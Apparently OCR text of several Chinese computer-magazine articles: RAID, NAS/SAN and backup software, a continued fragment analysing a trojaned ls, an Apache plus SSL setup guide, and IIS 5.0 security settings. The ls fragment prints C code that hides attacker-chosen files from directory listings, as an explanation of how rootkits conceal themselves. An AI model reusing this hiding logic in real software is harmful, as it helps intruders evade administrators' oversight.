RAID 0 是无数据冗余的存储空间条带化，具有低成本、极高读写性能、高存储空间利用率的 RAID 级别，适用于 Video / Audio 信号存储、临时文件的转储等对速度要求极其严格的特殊应用。但由于没有数据冗余，其安全性大大降低，构成阵列的任何一块硬盘损坏都将带来数据灾难性的损失。所以，在 RAID 0 中配置 4 块以上的硬盘，对于一般应用来说是不明智的。

RAID 1 是两块硬盘数据完全镜像，安全性好，技术简单，管理方便，读写性能均好。但其无法扩展（单块硬盘容量），数据空间浪费大，严格意义上说，不应称之为“阵列”。

RAID 0+1 综合了 RAID 0 和 RAID 1 的特点，独立磁盘配置成 RAID 0，两套完整的 RAID 0 互相镜像。它的读写性能出色，安全性高，但构建阵列的成本投入大，数据空间利用率低，不能称之为经济高效的方案。

RAID 5 是目前应用最广泛的 RAID 技术。各块独立硬盘进行条带化分割，相同的条带区进行奇偶校验（异或运算），校验数据平均分布在每块硬盘上。以 n 块硬盘构建的 RAID 5 阵列可以有 n-1 块硬盘的容量，存储空间利用率非常高。任何一块硬盘上数据丢失，均可以通过校验数据推算出来。它和 RAID 3 最大的区别在于校验数据是否平均分布到各块硬盘上。RAID 5 具有数据安全、读写速度快，空间利用率高等优点，应用非常广泛，但不足之处是 1 块硬盘出现故障以后，整个系统的性能大大降低。

对于 RAID 1、RAID 0+1、RAID 5 阵列，配合热插拔（也称热可替换）技术，可以实现数据的在线恢复，即当 RAID 阵列中的任何一块硬盘损坏时，不需要用户关机或停止应用服务，就可以更换故障硬盘，修复系统，恢复数据，对实现 HA（High Availability）高可用系统具有重要意义。

目前磁盘阵列可分成三种形式，包括外接式磁盘阵列柜、内接式磁盘阵列卡，与利用软件仿真。

### (3) 新型存储模式 NAS 和 SAN
DAS（Direct Attached Storage 直接连接存储）是指将存储设备通过 SCSI 接口或光纤通道直接连接到一台计算机上。DAS 的适用环境为：

- 服务器在地理分布上很分散，通过 SAN 或 NAS 在它们之间进行互连非常困难时（商店或银行的分支便是一个典型的例子）；
- 存储系统必须被直接连接到应用服务器（如 Microsoft Cluster Server 或某些数据库使用的“原始分区”）上时；
- 包括许多数据库应用和应用服务器在内的应用，它们需要直接连接到存储器上，群件应用和一些邮件服务也包括在内。

当服务器在地理上比较分散，很难通过远程连接进行互连时，直接连接存储是比较好的解决方案，甚至可能是唯一的解决方案。利用直接连接存储的另一个原因也可能是企业决定继续保留已有的传输速率并不很高的网络系统。NAS 和 SAN 的出现响应了 3 种重要的发展趋势：网络正成为主要的信息处理模式；需要存储的数据大量增加；数据作为取得竞争优势的战略性资产其重要性在增加。

NAS（Network Attached Storage 网络连接存储）即将存储设备通过标准的网络拓扑结构（例如以太网），连接到一群计算机上。NAS 是部件级的存储方法，它的重点在于帮助工作组和部门级机构解决迅速增加存储容量的需求。需要共享大型 CAD 文档的工程小组就是典型的例子。

NAS 产品包括存储器件（例如硬盘驱动器阵列、CD 或 DVD 驱动器、磁带驱动器或可移动的存储介质）和集成在一起的简易服务器，可用于实现涉及文件存取及管理的所有功能。简易服务器经优化设计，可以完成一系列简化的功能，例如文档存储及服务、电子邮件、互联网缓存等等。集成在NAS设备中的简易服务器可以将有关存储的功能与应用服务器执行的其他功能分隔开。

这种方法从两方面改善了数据的可用性。第一，即使相应的应用服务器不再工作了，仍然可以读出数据。第二，简易服务器本身不会崩溃，因为它避免了引起服务器崩溃的首要原因，即应用软件引起的问题。

NAS 产品具有几个引人注意的优点。首先，NAS 产品是真正即插即用的产品。NAS 设备一般支持多计算机平台，用户通过网络支持协议可进入相同的文档，因而 NAS 设备无需改造即可用于混合 Unix/Windows NT 局域网内。其次，NAS 设备的物理位置同样是灵活的。它们可放置在工作组内，靠近数据中心的应用服务器，或者也可放在其他地点，通过物理链路与网络连接起来。无需应用服务器的干预，NAS 设备允许用户在网络上存取数据，这样既可减小 CPU 的开销，也能显著改善网络的性能。

NAS没有解决与文件服务器相关的一个关键性问题，即备份过程中的带宽消耗。与将备份数据流从 LAN 中转移出去的存储区域网（SAN）不同，NAS 仍使用网络进行备份和恢复。NAS 的一个缺点是它将存储事务由并行 SCSI 连接转移到了网络上。这就是说 LAN 除了必须处理正常的最终用户传输流外，还必须处理包括备份操作的存储磁盘请求。

SAN(存储区域网络)通过光纤通道连接到一群计算机上。在该网络中提供了多主机连接，但并非通过标准的网络拓扑。

SAN 则专注于企业级存储的特有问题。当前企业存储方案所遇到问题的两个根源是：数据与应用系统紧密结合所产生的结构性限制，以及目前小型计算机系统接口（SCSI）标准的限制。大多数分析都认为 SAN 是未来企业级的存储方案，这也是因为 SAN 便于集成，能改善数据可用性及网络性能，而且还可以减轻管理作业。

SAN 解决方案的优点有以下几个方面：

- SAN 提供了一种与现有 LAN 连接的简易方法，并且通过同一物理通道支持广泛使用的 SCSI 和 IP 协议。SAN 不受现今主流的、基于 SCSI 存储结构的布局限制。特别重要的是，随着存储容量的爆炸性增长，SAN 允许企业独立地增加它们的存储容量。
- SAN 的结构允许任何服务器连接到任何存储阵列，这样不管数据置放在那里，服务器都可直接存取所需的数据。因为采用了光纤接口，SAN 还具有更高的带宽。

因为SAN解决方案是从基本功能剥离出存储功能，所以运行备份操作就无需考虑它们对网络总体性能的影响。SAN 方案也使得管理及集中控制实现简化，特别是对于全部存储设备都集群在一起的时候。最后一点，光纤接口提供了 10 公里的连接长度，这使得实现物理上分离的、不在机房的存储变得非常容易。

SAN 主要用于存储量大的工作环境，如 ISP、银行等，但现在由于需求量不大、成本高、标准尚未确定等问题影响了 SAN 的市场，不过，随着这些用户业务量的增大，SAN 也有着广泛的应用前景。

### 2. 备份软件介绍
备份软件技术在整个数据存储备份过程中具有相当的重要性，因为它不仅关系到是否支持硬件备份设备的各种先进功能，而且在很大程度上决定着备份的效率。备份软件技术主要分为两种，操作系统提供的备份功能和专业备份软件。主流操作系统都提供自带的备份软件，诸如 Unix 的 tar/cpio、WindowsNT 的 WindowsBackup、Netware 的 Sbackup 等，但是这些备份软件仅能提供一些基本的备份功能，缺乏专业备份软件的高速度与高性能。相对而言，专业备份软件在各方面都要优于操作系统提供的备份软件，目前比较流行的专业备份软件有 CA 的 Enterprise Backup、VERITAS 的 BackupExec 以及 Legato 的 Networker 等。

众所周知，磁带机对数据传输速度有一定要求，若数据传输率偏低，磁带机就无法连续运转。专业备份软件因能通过优化数据传输率即可以自动以较高的传输率进行数据传输，这不仅能缩短备份时间，提高数据存储备份速度，而且对磁带机设备本身也有好处；另外，专业备份软件还支持新磁带机技术。

数据备份是为了保证数据的一致性和完整性，消除系统使用者和操作者的后顾之忧。不同的应用环境要求不同的解决方案来适应，一般来说，一个完善的备份软件，需要满足以下原则：

## (1) 稳定性

备份产品的主要作用是为系统提供一个数据保护的方法，于是该产品本身的稳定性和可靠性就变成了最重要的一个方面。首先，备份软件一定要与操作系统100%的兼容，其次，当事故发生时，能够快速有效地恢复数据。

## (2) 全面性

在复杂的计算机网络环境中，可能会包括了各种操作平台，如各种厂家的UNIX、NetWare、Windows NT、VMS等，并安装了各种应用系统，如ERP、数据库、群件系统等。选用的备份软件，要支持各种操作系统、数据库和典型应用。

## (3) 自动化

很多系统由于工作性质，对何时备份、用多长时间备份都有一定的限制。在下班时间系统负荷轻，适于备份。可是这会增加系统管理员的负担，由于精神状态等原因，还会给备份安全带来潜在的隐患。因此，备份方案应能提供定时的自动备份，并利用磁带库等技术进行自动换带。在自动备份过程中，还要有日志记录功能，并在出现异常情况时自动报警。

## (4) 高性能

随着业务的不断发展，数据越来越多，更新越来越快，在休息时间来不及备份如此多的内容，在工作时间备份又会影响系统性能。这就要求在设计备份时，尽量考虑到提高数据备份的速度，利用多个磁带机并行操作的方法，维持业务系统的有效性。

实时备份对业务系统的性能将会产生一定的影响，有时会很大。如何采取有效的技术手段避免备份对服务器系统、数据库系统、网络系统的影响，将是非常重要的。

## (5) 操作简单

数据备份应用于不同领域，进行数据备份的操作人员也处于不同的层次。这就需要一个直观的、操作简单的图形化用户界面，缩短操作人员的学习时间，减轻操作人员的工作压力，使备份工作得以轻松地设置和完成。

## (6) 实时性

有些关键性的任务是要24小时不停机运行的，在备份的时候，有一些文件可能仍然处于打开的状态。那么在进行备份的时候，要采取措施，实时地查看文件大小、进行事务跟踪，以保证正确地备份系统中的所有文件。

(上接第52页)

```c
h_tmp->next=(struct h_st *)malloc(sizeof(struct h_st));
strcpy (h_tmp->filename, tmp_str);
h_tmp->filename[strlen(h_tmp->filename)-1]='\0';
h_tmp=h_tmp->next;
}
fclose(fp_hack);
}
h_tmp->next=NULL;
```

这段程序是黑客加入的，它用来把要隐藏的文件列表从指定文件中读出来，保存在一个已经定义好的单向链表h_tmp中，以便在后面隐藏这些文件。然后在后面的gobble_file()函数中进行隐藏：

```c
/* HACK MASK OUT FILES */
if (!showall) {
    for (h_tmp=hack_list; h_tmp->next; h_tmp=h_tmp->next)
        if (!(strcmp(name, h_tmp->filename)))
            return 0;
    /* More kludge - bleah */
    if (!(strcmp(name, h_tmp->filename)))
        return 0;
}
```

把要显示的文件名 name 同前面读出来的要隐藏的文件名链表中的文件名进行比较，如果 name 是要隐藏的文件，则返回0，这样就隐藏了该文件。

可以看到，利用特洛伊 ls 隐藏文件的方法就是这样简单，其他的隐藏进程、端口等信息的方法和ls基本相同，都是修改了部分系统程序的源代码，从而达到隐藏的目的。

(待续)

## 用 SSL

### 构建一个安全的 Apache

## 一、简介

本文要说明的是如何将 Apache 与 SSL(Secure Socket Layer)结合起来安装配置。众所周知，在网络上以明文传递敏感信息是相当不安全的，因此 SSL 提供了一种加密手段，在底层上为上层协议提供服务和加密方案，因此当用户在以 HTTP 协议传输数据时，窥探者将难以获取数据的信息。当然加密只是在传输过程中的，对用户是完全透明的。
Let's go!

## 二、准备工作

如果你的系统是从头装起的话，建议你留出一个叫 /chroot 的分区用来运行 Apache。至于这个分区的大小，取决于你自己。一般来说，一个普通的网站有 40M 也就够了。但你的系统如果早就运行了 Apache，你可以另外开辟一个分区，或者选择不用独立分区来安装，仅仅在根下面开一个目录。
另外，我假定你的系统已经通过了一定的安全检测——在安装 Apache 之前(如果有其他漏洞存在的话，你认为运行在其上的 Apache 会怎样？所谓覆巢之下，焉有完卵:)，检测至少要包括(但不仅限于)——移除不安全的 SUID 程序、升级某些守护进程、去掉不必要的服务。还假定你的 Web Server 是运行 TCP/IP，而且有自己的地址。

## 三、平台

以下测试都在下列平台下通过：
1. Slackware 4.x distribution using gcc 2.7.2.3 and Perl v5.005_02
2. Solaris 7 on Sparc using gcc v2.8.1 and Perl v5.005_03

## 四、获取所需要的软件

因为 Apache 并没有在它的包里自己 SSL，因此我们必须先下载到这些加密网页所必需的部分：
1. Apache Web Server - http://www.apache.org/dist/
不必多说，我们当然需要获得这个 Web Server，现在的版本是 1.3.11，Apache 是现在世界上使用最广泛的 Web Server。
2. mod_ssl - http://www.modssl.org
这是一个为 Apache1.3.x Web Server 提供强力加密的的软件模块，它使用的是 SSL v2 和 v3 以及 TLS(Transport Layer Security)v1 协议。该软件包是在 BSD 的 license 下开发的，在非商业的情况下，你可以自由地使用它。要判断该使用哪一个版本的 mod_ssl 很简单，它的版本号是特定格式的，也就是说，你如果用的是 1.3.11 的 Apache,那么就该用 2.50-1.3.11 的 mod_ssl。
3. mod_perl - http://perl.apache.org/dist/
4. Open SSL - http://www.openssl.org
这一软件包提供了 SSL v2/v3(Secure Sockets Layer)及 TLS v1(Transport Layer Security)协议的加密保护。
5. RSAref - 用搜索引擎查找一下“rsaref20.tar.Z”，就能找到了。我们将把这些程序安装于 /usr/local 目录下，增加功能模块可以给 Apache 更强大的功能。如果你需要更多模块的话，自己去获得它并且加载，比如 mod_php 这一模块也是现在流行的，可以使 Apache 提供 php 脚本支持……

## IIS5.0的安全管理

## Microsoft Security

文/hardi

相信对IIS (Internet Information Services) 大家都不陌生吧? 作为一个网络管理员, 再退一步, 作为一个基于NT的网络管理员, IIS对你来说应该是最重要的了吧? 到目前为止, IIS5.0是IIS的最新正式版本。它是一个包括具有WWW、FTP、SMTP、NNTP服务全部特征的Internet服务器, 支持WebDAV (Web Distributed Authoring and Versioning), 支持活动服务页面 (Active Server Pages), 还有两个管理工具: 一个是用于MMC (Microsoft Management Console) 的Internet Service Manager外接程序; 另一个是用于Web 浏览器管理的Internet Service Manager。

就是因为IIS5.0拥有了那么多的功能, 所以它的安全性也格外突出了, 现在网络中的很多漏洞都和它有关系, 如著名的idq/.ida 溢出漏洞和在去年五·一中美黑客大战中使用最多的UNICODE二次解码编码漏洞。

所以, IIS 的安全性对于一个网络管理员来说便成了一个主要的问题。下面我们就来谈谈如何利用IIS本身的工具来安全的管理因特网、内联网和外部Web站点。

总的来说, 网管可以通过4种主要的方法来实现安全策略:

- 1. IP 地址的域名安全限制: IIS 允许网管根据用户或工作组的IP地址或域名来控制他们对Web站点, 虚拟目录和单独文件的访问。这种安全策略适用于访问该资源的所有用户。
- 2. IIS 身份验证安全限制: IIS 允许网管根据相应策略制定的用户身份验证方法的类型来控制他们对Web站点、虚拟目录和单独文件的访问。它和第一种策略一样, 适用于访问该资源的所有用户。
- 3. IIS 权限: IIS 也允许网管根据资源的Web访问权限来控制客户端对Web站点、虚拟目录和单独文件的访问。它也适用于访问该资源的所有用户。
- 4. NTFS 权限: 说到NTFS, 大家一定会联系到NTFS的文件格式吧? 对了, 的确是和NTFS格式是有关系的, Win2000 允许管理员根据资源的NTFS访问权限来控制用户对物理目录和文件的访问。和其他3种方法不同, NTFS权限可以实现为不同的用户和工作组分配不同的权限。而在这几种方法中最基本的方法就是利用WinNT的文件系统(NTFS)。在对任何其他形式的安全进行配置之前, 要保证对发布内容的NTFS权限必须配置正确，否则……）


图1就是，所应用的4种安全方案了：）

以上简单的介绍一下4种方案，下面就开始介绍各种方案的具体实施。

## 一、IP地址和域名安全限制

配置IP地址和域名约束的方法是根据你配置目的来确定的。比如说：如果你要为虚拟的服务器(Web站点)，虚拟路径和虚拟服务器的任何一个物理子路径配置IP地址和约束，可以Internet服务管理器中的“管理Web站点”，然后点击“属性”。在属性表里选择“目录安全性”。看到一个IP地址和域名限制了吧？点击“编辑”按钮。如图2所示。



如果是为一个虚拟目录或服务器下面的文件配置IP地址和域名约束，方法和上面类似，只不过需要在MMC右边的界面里点击“文件”，然后右击“属性”就会看到文件安全性，后面的步骤一样。

IP地址和域名限制框允许网管根据IP地址和因特网域名来允许或拒绝对服务器、站点和网页的访问。在实际配置时，要注意看清楚是拒绝访问还是授权访问。要是允许或拒绝对主机的访问，点击“添加”按钮就会产生一个对话框，然后选择是单独的计算机还是计算机组，或者是域名。如图3所示。



我们来看看具体的安全策略的具体描述：

第一，如果是一个学校的Web服务器和另一个学校有相连的外联网，网管就可以用上面的策略来拒绝其他学校的IP地址访问。

第二，如果有人来入侵，比如典型的DDoS(拒绝服务器攻击)，如果你发现有一个来自211.83.10.11的人入侵你的网络，你就可以通过它来拒绝那个IP地址，甚至是整个211.83.10.X的网络的访问。当然，要防范大规模的DDoS攻击和SYN攻击，这种方法是不行的啦：）

第三，要是你的IIS服务器可以通过(LAN)来访问，但是这个LAN又接入了因特网，那就要靠它来完成配置了哦，方法大家一定都会了。

## 二、IIS身份验证安全限制

网管可以配置IIS来根据客户端使用的登陆身份验证来控制对Web站点、虚拟目录或单独文件的访问。这是通过为资源配置IIS身份验证安全机制来实现的。具体的说有4种验证方法：匿名访问、基本身份验证、DIGEST身份验证、集成Windows身份验证。

首先，匿名访问。不用说啦，每个人都可以访问的啦。

其次，基本身份验证。用户必须在登陆对话框里键入有效的Windows 2000的用户账号和口令，才能访问这样设置的Web站点、虚拟目录或单独文件。如图4所示。



第三，DIGEST身份验证。这种方法将口令作为哈希值发送到网络上，不过这个选项只能适用于Windows 2000的域。但是我们可以使用这种方法来通过防火墙或代理服务器的登陆。

第四，集成Windows身份验证。已经使用了有效的Windows用户账号登陆到机器上的用户会自动经过身份验证而允许访问这样的设置的Web站点、虚拟目录或单独文件。



IIS身份验证的设置是和IP地址、域名安全限制在一起的，也是在目录安全性里的，不过要点击的是匿名访问和验证控制里，如图5所示。

看到了吧？这里面有4种可以选择的身份验证哦，你可以选择任意的组合哦：)


图6

你选择哪些子节点要继承你为他的父节点做的默认设置。当然，在默认的情况下，所有的子节点都会自动继承，如图6所示。

如果你想为每一个文件配置IIS身份验证，也是可以的，那就要打开MMC里你所要配置的文件的属性的目录安全性，配置方法和上面一样。

下面我们就来看看每一种身份验证的具体情况。

### 第一，匿名访问

大家知道，我们在安装IIS的时候，系统就为我们自动生成了一个用户账号：Internet来宾账号。我们来看看这个账号的属性吧：它的用户名是机器的名称，这个用户不可以更改口令，口令也不会过期，它是Guest工作组的成员。

如果按照系统默认的设置是很危险的，因为在验证方法中，默认设置的是让匿名进入的，再看看本地安全策略里的东西，如图7所示。


图7

是不是很危险啊，可以想想哦，很多提升权限就是从这个账号开始的，具体的文章这里就不介绍了，可以www.ttian.net去找找。

所以你可以在验证方法里更改这个设置，你可以更改这个账号的用户名，或者直接禁止访问。最后要提醒大家的是，因为Internet来宾账号是属于Guest组的，所以你在更改Guest组权限的时候，Internet来宾账号会继承Guest的设置。所以，在允许匿名访问前，要看清楚Guest组的权限。

### 第二，基本身份验证

基本身份验证是用户身份验证的标准HTTP方法，绝大多数Web浏览器都支持的。当你在验证方法中选择了基本身份验证的话，当客户端要访问一个虚拟服务器或者虚拟目录或单独文件时，会看到下面的对话框，如图8所示。


图8

当你3次输入不对的话，服务器将返回下面的信息：

```
HTTP Error 410.1 Unauthorized Logon Failed
```

但是，基本身份验证并不是一个安全的身份验证，它只能用在安全性要求不高的环境中。在基本身份验证中，用户名和口令通过一个uuencode的进程编码为ASCII字符，而这个字符确实没有经过加密，所以用一个简单的Sniffer就可以监听得到。具体的做法许多安全站点上都有，可以参考一下。

在使用这种方法的时候要注意，有些浏览器，如Netscape navigator是无法使用的。

### 第三，Digest身份验证

Digest身份验证是在Basic 明文前的一个步骤，在这个文本中，通过因特网以哈希格式发送口令。Digest身份验证并不是因特网标准，只有Internet Explorer 5.0以上的版本支持它访问那些由Windows2000控制器控制的域。但是值得注意的是，Digest身份验证将口令作为文本文件储存在域控制器上，这个文件用来比较IIS发送的散列。通过限制访问来保证这个文件的安全性。所以说，这个验证的安全性也不是很高，原因大家都知道了吧。

### 第四，配置 Windows 集成身份验证

这是最后一个 IIS 身份验证了。如果用户是合法的域用户登陆到 Windows2000 系统，那么综合安全进程是对用户透明的，用户只要访问资源的话，就会有对话框对他进行身份验证。通过以后才可以有访问权哦，以后再访问就不需要二次验证了。当然，要实现这种验证的前提是域控制器必须可以访问！如果一个成员组的人要登陆到非 Win2000 系统，他会看到一个要求输入网络密码的对话框，必须输入有效的 Windows2000 用户名和密码才可以访问。要注意的是，只有 Internet Explorer2.0 以上的版本可以支持这种验证。

最后，我想说的是，任何一种口令验证的方法都会被攻破，如果没有好的账号管理策略的话。作为一个称职的网管，必须要有计划地执行账号管理策略，比如适当地检查口令的复杂性，查看有没有多出来的账号。我们看图 9：



它是在本地安全策略里设置的。

以上我们提到的 4 种身份验证可以综合起来使用，但是，这是有优先级别的。级别的高低是你看到的 4 种策略从上到下来排列的!

## 三、IIS 权限的问题

配置IIS权限是在Internet 服务管理器中相应的虚拟服务器，或者虚拟目录、目录、文件的属性中的主目录、虚拟目录、目录和文件中设置，如图 10（这是为虚拟服务器配置 IIS 权限）所示。

IIS 提供了 2 种访问权限来限制访问：一个是读，一个是写。关于读写的问题大家一定不陌生吧：）

当然，如果有脚本存在的话，还会包括不可以、可执行脚本、可执行脚本和程序 3 种类别。具体来说，我们对不同的资源推荐不同的 IIS 权限，具体如下：

